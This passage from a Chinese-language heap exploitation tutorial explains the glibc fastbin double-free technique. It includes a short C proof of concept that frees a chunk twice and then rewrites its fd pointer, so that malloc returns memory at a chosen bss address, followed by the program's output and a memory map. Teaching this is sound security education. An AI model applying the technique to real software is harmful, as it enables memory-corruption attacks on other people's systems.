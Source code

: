 第二次释放`free(chunk2)`

![](./figure/fastbin_free_chunk2.png)

第三次释放`free(chunk1)`



![](./figure/fastbin_free_chunk3.png)


注意因为 chunk1 被再次释放因此其 fd 值不再为 0 而是指向 chunk2，这时如果我们可以控制 chunk1 的内容，便可以写入其 fd 指针从而实现在我们想要的任意地址分配 fastbin 块。
下面这个示例演示了这一点，首先跟前面一样构造 main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用 malloc 返回 chunk1 之后修改 chunk1 的 fd 指针指向 bss 段上的 bss_chunk，之后我们可以看到 fastbin 会把堆块分配到这里。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系统上 chunk_b 输出的值会是 0x601090，这个值位于bss段中正是我们之前设置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
```